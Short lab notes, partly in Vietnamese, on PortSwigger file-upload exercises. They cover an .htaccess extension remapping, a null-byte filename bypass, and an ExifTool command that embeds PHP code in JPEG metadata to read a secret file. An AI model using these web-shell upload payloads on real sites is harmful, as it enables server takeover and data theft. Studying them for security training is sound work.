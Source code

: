 # Web shell upload via extension blacklist bypass

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

1. Upload `.php` file --> blocked

2. Upload `.htaccess` file with content: `AddType application/x-httpd-php .l33t` to overwrite the config in upload folder

3. Upload `test.133t` with content: `<?php echo file_get_contents('/home/carlos/secret'); ?>` to get the flag.

# Bypass whitelist extension with Null byte

Upload avatar only allowed .png and .jpg

PHP 5.3.4 < Vulnerable to null byte injection

*file name*: `test.php%00.jpg`

# Flawed validation of the file's contents
Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

**ExifTool**: https://exiftool.org/

**Command**:
```bash
.\exiftool.exe -Comment="<?php echo 'START' . file_get_contents('/home/carlos/secret') . 'END'; ?>" 1.jpg -o magic.php
```

`1.jpg` là ảnh chèn metadata. Câu lệnh trên chèn code `PHP` vào metadata của `1.jpg` và khi ảnh này được upload và được đọc như file php(file extension/inclusion) thì đoạn code PHP trên sẽ được thực thi. Phần START và END để phân biệt output của câu lệnh với đống byte 'rác'.

<img width="742" alt="magic" src="https://user-images.githubusercontent.com/71699412/159521080-cc912ccb-7799-42de-beb9-0e847dac170c.png">

